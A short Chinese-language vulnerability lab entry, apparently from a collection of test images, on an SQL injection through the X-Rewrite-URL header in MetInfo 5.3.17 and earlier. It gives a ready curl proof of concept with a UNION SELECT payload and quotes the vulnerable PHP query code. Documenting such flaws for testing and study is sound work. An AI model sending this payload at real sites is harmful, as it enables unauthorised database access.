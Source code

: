 ### X-Rewrite-URL SQL注入

测试镜像

* src/metinfo/5.3.17/

要求

* 管理员在 `营销 -> SEO` 下面，开启伪静态
* 管理员安装了至少两种语言包，只安装中文会导致 `$lang` 被覆盖，无法注入

影响版本

* <= 5.3.17

参考链接

* [Metinfo 5.3.17 前台SQL注入漏洞分析](https://paper.seebug.org/371/)

Poc

```
curl -I 'http://127.0.0.1/index.php?lang=Cn&index=xxxx' -H "X-Rewrite-URL: 'and 1=2 union select version(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#/index.php"
```

关键代码

```
# config/config.inc.php
$met_index_type = $db->get_one("SELECT * FROM $met_config WHERE name='met_index_type' and lang='metinfo'");

..

if(count($met_langok)==1)$lang=$met_index_type;

# include/global.func.php
$dir_dirname=$dirs[count($dirs)-2];

...

if($lang==$met_index_type){
	
	...

} else {

	...

$query="select * from $met_column where foldername='$dir_dirname' and lang='$lang' and (classtype='1' or releclass!='0') order by id asc";

	...
```

